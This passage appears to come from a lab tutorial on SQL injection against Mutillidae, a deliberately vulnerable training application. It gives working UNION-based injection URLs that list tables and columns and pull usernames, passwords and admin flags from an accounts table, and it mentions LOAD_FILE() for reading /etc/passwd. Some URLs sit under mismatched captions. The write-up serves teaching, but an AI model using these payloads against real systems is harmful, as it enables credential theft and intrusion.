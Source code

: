 
The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :

![alt text](img/23.png)




The column names of the accounts is displayed below for the following url:




Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :

![alt text](img/24.png)

## OUTPUT :

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![alt text](img/25.png)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
